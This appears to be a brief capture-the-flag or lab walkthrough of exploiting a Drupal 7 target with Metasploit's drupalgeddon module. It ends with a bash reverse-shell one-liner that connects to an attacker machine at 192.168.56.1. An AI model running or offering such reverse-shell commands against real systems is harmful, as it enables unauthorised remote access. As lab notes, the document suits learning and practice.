



::: page
# drupalgeddon2 {#drupalgeddon2 .title}

\

Searched for **drupal 7 exploit** and got this :

On metasploit searched for **drupalgeddon** :

Used this, **set rhost to the target ip and lhost to attacking machine
ip** :

Got a **low level user**.

bash -c \'bash -i \>& /dev/tcp/192.168.56.1/1234 0\>&1\'
:::
